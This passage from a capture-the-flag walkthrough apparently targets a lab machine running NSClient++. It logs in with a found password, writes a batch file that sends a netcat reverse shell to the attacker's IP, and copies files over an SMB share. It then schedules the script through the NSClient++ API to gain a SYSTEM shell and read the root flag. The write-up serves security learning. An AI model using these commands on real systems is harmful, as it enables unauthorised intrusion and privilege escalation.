 ```shell
https://127.0.0.1:8443
```
Now enter the password we found there and we will able to log in successfully:

```shell
# Enter this password
ew2x6SsGTxjRwXOT
```
### Escalate Privileges with .bat file and nc64.exe creating a scheduled script
Searching for information about how to exploit our access on NSClient++, I found we can create a .bat file to help us escalate priviliges. We will create a file called pwn.bat and put the following content inside:

```shell
cat pwn.bat

@echo off
C:\Users\Nadine\nc64.exe 10.10.14.206 9001 -e cmd
```
Move the pwn.bat and nc64.exe files:

```shell
# Start authenticated SMB server on Kali
impacket-smbserver -smb2support kalishare . -username panda -password bamboo123

# On the target CLI, connect to our SMB share
net use m: \\10.10.14.206\kalishare /user:panda bamboo123

# Copy the files
copy \\10.10.14.206\kalishare\pwn.bat .
copy \\10.10.14.206\kalishare\nc64.exe .

```
Start nc listener on Kali:

```shell
nc -lvnp 9001
```

Now we will create a script and schedule it through the API.

Run the commands below to get a shell as system:

```shell
curl -s -k -u admin -X PUT https://127.0.0.1:8443/api/v1/scripts/ext/scripts/pwn.dat --data-binary "C:\Windows\Temp\nc64.exe 10.10.14.206 9001 -e cmd.exe"

curl -s -k -u admin https://127.0.0.1:8443/api/v1/queries/evil/commands/execute?time=1m
```

After entering the commands above, we will get a response on our nc listener:

```shell
listening on [any] 9001 ...
connect to [10.10.14.206] from (UNKNOWN) [10.129.141.209] 50928
Microsoft Windows [Version 10.0.17763.864]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Program Files\NSClient++>whoami
whoami
nt authority\system
```

### Root Flag
Now we can get the root.txt flag:
```shell
type C:\Users\Administrator\Desktop\root.txt
```